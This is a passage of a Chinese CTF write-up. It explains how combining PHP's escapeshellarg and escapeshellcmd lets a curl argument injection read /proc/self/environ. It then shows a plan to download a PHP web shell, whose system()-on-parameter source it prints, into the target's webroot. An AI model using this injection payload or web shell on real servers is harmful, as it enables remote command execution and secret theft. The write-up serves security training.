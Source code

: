 escapeshellcmd則是會讓&#;|*?~<>^()[]{}$\以及沒有配對到的單引號與雙引號等符號被跳脫，避免特殊字影響操作
ex: 
```
' -> \' 
? -> \?
```

但當他們加在一起(按arg再cmd的順去)，對於單引號的防護就會失效
ex:
```
' -> '\'' -> '\\'\'
```

用來處理在網頁輸入的連結就會變成
```
https://a' b -> http://a'\\'' b\
```
變成兩個用空格隔開的東西，因為curl可以同時處理好幾個用空格隔開的連結，就會導致我們可以對於後面的連結做操作

在source code中，有提示flag藏在環境變數裡
```php
$hint = "The flag for Curl Online Pro is: " . $_ENV['FLAG_ENV'] . "\n";
```
所以我們要想辦法抓出環境變數

linux有個很特別的點是，他把很多東西都存成檔案的形式，像是環境變數就存在'/proc/self/environ'的路徑裡，所以我們的目標是把他取出來。

這個網站原本是使用http協議進行資料的傳輸，不過http是用來傳輸html的，如果我們要取得file，就要用到FTP的協議(格式:file://host/path)

所以我們下指令(在本機上，host似乎就不用加東西了)
```php
a' file:///proc/self/environ 'b
變成
curl -s 'http://a'\\'' file:///proc/self/environ '\\''b'
```
第一跟第二個東西都不會起作用，只有中間的FTP會運作，透過這個方式就可以取得環境變數作為respond，進而找到flag了

## 5. [[Web] Curl Online Max](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/276)

這題是上一題的更進階，可以讓我們隨意輸入指令。本題的網站跟上一題相同，在source code一樣有提示

source code:
```php
$hint .= "Run `/readflag` to get the flag for Curl Online Max\n";
```
讓他能跑/readflag指令，就可以取得flag，所以我們要先能讓他任意輸入指令

講linux語法的時候有講過，curl [URL] -o [file]可以把URL連結取得的東西下載到file之中。
所以我們只要讓他執行這個指令，下載了一個file進去，我們就可以透過"網址/filename"的方式碰到這個file，如果這個file是個PHP檔，就可以用來執行指令

這邊學長有先寫好一個可以下載的PHP檔，https://training.ching367436.me/shell/shell.php
內容如下:
```php
<?php 
    if(isset($_REQUEST['cmd'])){ 
        echo "<pre>"; 
        $cmd = ($_REQUEST['cmd']); 
        system($cmd); 
        echo "</pre>"; 
        die;
    }
?>
```
他可以執行url中，cmd參數所帶的指令
